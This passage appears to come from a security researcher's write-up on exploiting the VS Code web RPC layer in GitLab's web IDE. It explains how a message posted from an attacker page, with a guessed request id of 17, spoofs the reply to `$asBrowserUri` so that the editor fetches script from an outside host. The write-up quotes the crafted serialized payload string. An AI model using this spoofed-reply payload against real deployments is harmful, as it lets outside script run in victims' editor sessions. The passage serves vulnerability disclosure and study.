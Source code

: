 ````js
		this._pendingRPCReplies[callId] = new PendingRPCReply(result, disposable);
		this._onWillSendRequest(req);
		const msg = MessageIO.serializeRequest(req, rpcId, methodName, serializedRequestArguments, !!cancellationToken);
		this._logger?.logOutgoing(msg.byteLength, req, RequestInitiator.LocalSide, `request: ${getStringIdentifierForProxy(rpcId)}.${methodName}(`, args);
		this._protocol.send(msg);
````

The variable naming is also same, `req` same as what was used in `_receiveReply` and also both the values are also same in case of Gitlab which is `17`

````js
req = ++this._lastMessageId
````

So what actually happening here is that when `_remoteCall` is invoked for `$asBrowserUri` , `this._lastMessageId` value is 16 doing a pre increment operation on this stores 17 in the `req` variable.

The return value of `PendingRPCReply` method is stored at the 17 index of `this._pendingRPCReplies`.

Now when the worker message handler forwards this serialized message (which we sent from our attacker controlled page, this happens after the `$asBrowserUri` is done as described above, here the sequence is important)

````
'\t\x00\x00\x00I\x00\x00\x00O{"$mid":1,"path":"/1.js","scheme":"https","authority":"sudistark.github.io"}'
````

Using `buff.readUInt32()` the req value is retrieved which is 17 for the above message and when `_receiveReply` gets called `!this._pendingRPCReplies.hasOwnProperty(callId)` will be false because there is indeed a property `17`.

Next call to `pendingReply.resolveOk(value)` sets the value for that rpc method which is then stored in `browserUri` and passed to the fetch call :)

![Pasted image 20240718220926.png](/tmp/cdn-images/Pasted%20image%2020240718220926.png)
